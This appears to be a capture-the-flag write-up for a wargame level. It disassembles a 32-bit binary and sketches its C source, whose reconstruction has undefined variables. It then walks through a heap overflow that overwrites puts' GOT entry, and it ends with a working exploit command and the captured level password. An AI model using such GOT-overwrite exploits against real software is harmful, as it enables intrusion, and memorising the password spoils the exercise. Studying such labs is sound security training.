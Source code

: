 ## level7 
below is the objdump for level7 `0x80486e0, 0x8049960`
```
080484f4 <m>:
 80484f4:       55                      push   ebp
 80484f5:       89 e5                   mov    ebp,esp
 80484f7:       83 ec 18                sub    esp,0x18
 80484fa:       c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
 8048501:       e8 ca fe ff ff          call   80483d0 <time@plt>
 8048506:       ba e0 86 04 08          mov    edx,0x80486e0
 804850b:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 804850f:       c7 44 24 04 60 99 04    mov    DWORD PTR [esp+0x4],0x8049960
 8048516:       08
 8048517:       89 14 24                mov    DWORD PTR [esp],edx
 804851a:       e8 91 fe ff ff          call   80483b0 <printf@plt>
 804851f:       c9                      leave
 8048520:       c3                      ret

08048521 <main>:
 8048521:       55                      push   ebp
 8048522:       89 e5                   mov    ebp,esp
 8048524:       83 e4 f0                and    esp,0xfffffff0
 8048527:       83 ec 20                sub    esp,0x20
 804852a:       c7 04 24 08 00 00 00    mov    DWORD PTR [esp],0x8
 8048531:       e8 ba fe ff ff          call   80483f0 <malloc@plt>
 8048536:       89 44 24 1c             mov    DWORD PTR [esp+0x1c],eax
 804853a:       8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 804853e:       c7 00 01 00 00 00       mov    DWORD PTR [eax],0x1
 8048544:       c7 04 24 08 00 00 00    mov    DWORD PTR [esp],0x8
 804854b:       e8 a0 fe ff ff          call   80483f0 <malloc@plt>
 8048550:       89 c2                   mov    edx,eax
 8048552:       8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 8048556:       89 50 04                mov    DWORD PTR [eax+0x4],edx
 8048559:       c7 04 24 08 00 00 00    mov    DWORD PTR [esp],0x8
 8048560:       e8 8b fe ff ff          call   80483f0 <malloc@plt>
 8048565:       89 44 24 18             mov    DWORD PTR [esp+0x18],eax
 8048569:       8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 804856d:       c7 00 02 00 00 00       mov    DWORD PTR [eax],0x2
 8048573:       c7 04 24 08 00 00 00    mov    DWORD PTR [esp],0x8
 804857a:       e8 71 fe ff ff          call   80483f0 <malloc@plt>
 804857f:       89 c2                   mov    edx,eax
 8048581:       8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 8048585:       89 50 04                mov    DWORD PTR [eax+0x4],edx
 8048588:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 804858b:       83 c0 04                add    eax,0x4
 804858e:       8b 00                   mov    eax,DWORD PTR [eax]
 8048590:       89 c2                   mov    edx,eax
 8048592:       8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 8048596:       8b 40 04                mov    eax,DWORD PTR [eax+0x4]
 8048599:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 804859d:       89 04 24                mov    DWORD PTR [esp],eax
 80485a0:       e8 3b fe ff ff          call   80483e0 <strcpy@plt>
 80485a5:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 80485a8:       83 c0 08                add    eax,0x8
 80485ab:       8b 00                   mov    eax,DWORD PTR [eax]
 80485ad:       89 c2                   mov    edx,eax
 80485af:       8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 80485b3:       8b 40 04                mov    eax,DWORD PTR [eax+0x4]
 80485b6:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 80485ba:       89 04 24                mov    DWORD PTR [esp],eax
 80485bd:       e8 1e fe ff ff          call   80483e0 <strcpy@plt>
 80485c2:       ba e9 86 04 08          mov    edx,0x80486e9
 80485c7:       b8 eb 86 04 08          mov    eax,0x80486eb
 80485cc:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 80485d0:       89 04 24                mov    DWORD PTR [esp],eax
 80485d3:       e8 58 fe ff ff          call   8048430 <fopen@plt>
 80485d8:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80485dc:       c7 44 24 04 44 00 00    mov    DWORD PTR [esp+0x4],0x44
 80485e3:       00
 80485e4:       c7 04 24 60 99 04 08    mov    DWORD PTR [esp],0x8049960
 80485eb:       e8 d0 fd ff ff          call   80483c0 <fgets@plt>
 80485f0:       c7 04 24 03 87 04 08    mov    DWORD PTR [esp],0x8048703
 80485f7:       e8 04 fe ff ff          call   8048400 <puts@plt>
 80485fc:       b8 00 00 00 00          mov    eax,0x0
 8048601:       c9                      leave
 8048602:       c3                      ret
 8048603:       90                      nop
 8048604:       90                      nop
 8048605:       90                      nop
 8048606:       90                      nop
 8048607:       90                      nop
 8048608:       90                      nop
 8048609:       90                      nop
 804860a:       90                      nop
 804860b:       90                      nop
 804860c:       90                      nop
 804860d:       90                      nop
 804860e:       90                      nop
 804860f:       90                      nop
 ```
After looking at the objdump and analyzing the data values. the source code can be deduced as 
```clike=
#include <time.h>
#include <stdio.h>
    
// 080484f4
void m()
{
    int num_of_sec = time(0);
    printf("%s - %d\n", g_fgets_buf, num_of_sec);
}
// 08048521
void main()
{
    // 8048527
    void *ptr1;
    void *ptr2;
    FILE *file;
    
    // 804854b
    ptr1 = malloc(8);
    ptr1[0] = 0x1;
    
    // 804857a
    ptr1[1] = malloc(8);
    
    // 8048560
    ptr2 = malloc(8);
    ptr2[0] = 0x2;
    
    // 804857a
    ptr2[1] = malloc(8);
    
    // 80485a0
    strcpy(ptr1[1], argv[1]);
    
    // 80485bd
    strcpy(ptr2[1], argv[2]);
    
    file = fopen("/home/user/level8/.pass","r");
    fgets(pass, 68, fs);
    puts("~~");
    return 0;
}
```
Since the heap space is close and buffer grows to the GOT, I though it was a good idea to overwrite one of the mallocs to overwrit puts address, however, doing so might corrupt `fgets` (which I havent tested) since fgets is higer than puts in memory

```
./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen

```
right now, the info that we have is, we want to overwrite `0x08049928` which is the address to the puts function, to the address of the m function `080484f4` .

To inspect the memory layout of the malloced heap, I ran with the arguments `AAAAAAAA` and `BBBBBBBB` to pre fill the buffers
Here is the layout for the first strcpy

![image](https://hackmd.io/_uploads/Sy1fc6hrT.png)

Here is the layout for the second one

![image](https://hackmd.io/_uploads/Sk5B962Bp.png)

I have ran this many times, and turns out the same. The layout looks kinds of like this

![image](https://hackmd.io/_uploads/BJxCpahrT.png)

With this information, now we know that for the first strcpy, we will overwrite the value of ptr_2_ptr2[1] via buffer overflow with the GOT of 20 bytes.

The second strcpy will then write the address of the m function with an address in the GOT, which is at ptr_2_ptr2[1]

I ran the program like this and It game me the password `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`
```
./level7 `python -c print"'B' * 20 + '\x08\x04\x99\x28'[::-1]"`  ` python -c print"'\x08\x04\x84\xf4'[::-1]"`
```

![image](https://hackmd.io/_uploads/H1X81A3Bp.png)

